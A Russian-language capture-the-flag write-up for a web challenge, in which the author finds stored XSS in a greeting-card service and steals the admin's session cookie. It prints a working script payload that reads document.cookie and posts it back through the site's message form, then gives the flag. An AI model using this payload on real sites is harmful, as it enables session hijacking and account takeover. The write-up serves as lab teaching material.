

Web

# Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. 

Пришло в голову протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:


Если на сайте присутствует уязвимость XSS до мой код выполнится и слово "Получилось" будет красным.


Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.

Смотрю на запрос отправки сообщения:


Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.

Получившийся XSS код:

```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:




Работает!

Отправляю админу:


Получил куки, подставил.


`Имя: admin Админ: True` - Я под админом.

Здесь веб за 50.


Все.
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

